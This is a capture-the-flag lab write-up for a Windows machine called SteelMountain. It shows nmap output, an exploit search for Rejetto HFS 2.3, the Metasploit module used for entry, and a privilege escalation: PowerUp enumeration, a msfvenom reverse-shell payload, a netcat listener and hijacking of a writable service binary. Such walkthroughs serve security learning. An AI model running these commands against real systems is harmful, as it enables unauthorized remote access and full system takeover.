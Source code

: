 # SteelMountain


## Nmap Scan

```$ nmap -sV -v -oN Nmap/initial_scan.nmap 10.10.224.185```
```$ nmap -A -p- -v -oN Nmap/all_scan.nmap 10.10.224.185```
```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http               HttpFileServer httpd 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Eumeration

HTTP Server running on port 8080
"Rejetto HFS HTTP File Server 2.3"
```
$ searchsploit Rejetto HFS HTTP File Server
```

---

Exploit Title | Path

---

Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit) | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload| multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1) | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2) | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution | windows/webapps/34852.txt


## Exploitation

Metasploit module: exploit/windows/http/rejetto_hfs_exec

Use module, self explanitory


## Privilege Escalation

Using PowerUp to enumerate privesc

Upload to victim: ```meterpreter > upload /usr/share/scripts/PowerUp.ps1```

Load PowerShell into meterpreter: ```meterpreter > load powershell```

Execute the script:
```
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

In the output we see a possible vuln. CanRestart is set to True, allowing us to restart the service. The service is also writable so we can replace the exe and restart it to run a shell.

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

Create a msfvenom payload: ```msfvenom -p windows/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4443 -e x86/shikata_ga_nai -f exe -o payload.exe```

Start a netcat listener: nc -lnvp 4443

Stop the service: net stop AdvancedSystemCareService9

Upload payload to server with the name "ASCService.exe" and copy it into the "C:\Program Files (x86)\IObit\Advanced SystemCare" folder.

Restart the service: net start AdvancedSystemCareService9

Shell should connect on NC listener!

